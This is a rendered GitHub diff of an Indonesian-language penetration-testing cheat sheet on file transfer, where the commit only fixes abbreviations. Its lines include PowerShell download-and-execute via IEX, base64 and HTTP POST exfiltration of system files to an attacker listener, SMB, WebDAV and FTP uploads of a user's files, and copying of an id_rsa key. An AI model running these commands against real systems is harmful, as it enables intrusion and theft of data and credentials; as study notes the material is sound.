

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, the part around one of its changes. Shown at 83% size. Drawn GitHub-style.

Commit message:
Fix typos and enhance clarity in file transfer methods
Corrected typos and improved clarity in instructions for file transfer methods.

````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -99,61 +99,61 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   Ini isi file contoh
   ```
 
-### Metode 5: Upload dg encode Base64 di PowerShell
-- Di komp target
+### Metode 5: Upload dengan encode Base64 di PowerShell
+- Di komputer target
   ```
   [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
   ```
-- Salin hash dan paste di komp attacker (linux)
+- Salin hash dan paste di komputer attacker (linux)
   ```
   echo ENCODED_BASE64 > base64 -d > hosts
   ```
-- Pastikan file sama, verifikasi dg hash
+- Pastikan file sama, verifikasi dengan hash
 
 ### Metode 6: PowerShell Web Uploads
-- Di komp attacker
+- Di komputer attacker
   ```
   pip3 install uploadserver
   python3 -m uploadserver
   ```
-- Di komp target (windows)
+- Di komputer target (windows)
   ```
   IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
   Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hosts
   ```
 - Upload dengan format Base64
-- Di komp attacker
+- Di komputer attacker
   ```
   nc -lvnp 8000
   ```
-- Di komp target
+- Di komputer target
   ```
   $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
   Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
   ```
 
 ### Metode 7: SMB uploads
-- Di komp attacker
+- Di komputer attacker
   ```
   sudo pip3 install wsgidav cheroot
   sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
   ```
-- Tes koneksi dari komp target
+- Tes koneksi dari komputer target
   ```
   dir \\192.168.49.128\DavWWWRoot
   ```
-- Tes upload file dari komp target
+- Tes upload file dari komputer target
   ```
   copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
   copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
   ```
 
 ### Metode 7: FTP uploads
-- Di komp attacker
+- Di komputer attacker
   ```
   sudo python3 -m pyftpdlib --port 21 --write
   ```
-- Di komp target (windows)
+- Di komputer target (windows)
   ```
   (New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
   ```
@@ -161,17 +161,17 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
 <h2 align="center">Linux</h2>
 
 ### Metode 1: copas encode
-- Di komp attacker
+- Di komputer attacker
   ```
   cat id_rsa |base64 -w 0;echo
   ```
-- Di komp target
+- Di komputer target
   ```
   echo -n encoded_id_rsa | base64 -d > id_rsa
   ```
-- Verifikasi file dg hash
+- Verifikasi file dengan hash
 
-### Metode 2: donlot dari sumber online
+### Metode 2: download dari sumber online
 - Dengan wget
   ```
   wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
Also changed, not shown: other parts of notes/file-transfer.md (+24 -24 lines).
